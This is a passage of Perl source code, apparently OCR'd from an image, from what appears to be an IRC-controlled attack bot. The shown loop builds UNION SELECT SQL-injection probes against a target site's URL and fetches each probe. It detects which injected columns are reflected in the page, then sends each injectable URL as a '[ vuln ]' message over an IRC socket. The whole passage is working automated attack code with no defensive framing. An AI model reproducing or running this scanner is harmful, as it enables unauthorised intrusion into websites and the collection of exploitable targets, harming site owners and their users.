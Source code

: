          $w=$w*1000; 

         for($i=1;$i<=$columns;$i++) { 

            splice(@col,0,$#col+1); 

            for($j=1;$j<=$i;$j++) { 

               push(@col,$w+$j); 

            }    

            $tmp=join(",",@col); 

            $test=$site."-1+UNION+SELECT+".$tmp."/*"; 

            print $test."\n"; 

            $result=get_html($test); 

            $result =~ s/\/\*\*\///g; 

            $result =~ s/UNION([^(\*)]*)//g; 

            for($k=1;$k<=$i;$k++) { 

               $n=$w+$k; 

                  if($result =~ /$n/){ 

                     splice(@col2,0,$#col2+1); 

                        for($s=1;$s<=$i;$s++) { 

                           push(@col2,$s);  

                        } 

                     $tmp2=join(",",@col2); 

                     $test2="+UNION+SELECT+".$tmp2."/*"; 

                     push @{$dane{$test2}},$k; 

                  }  

            } 

         } 

         for $klucz (keys %dane) { 

            foreach $i(@{$dane{$klucz}}) { 

               $klucz =~ s/$i/$i/; 

            } 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :13,1 [ vuln ] 9,1 [  ".$site."-1".$klucz."  ]  "); 

         } 

         %dane=();       

            } 
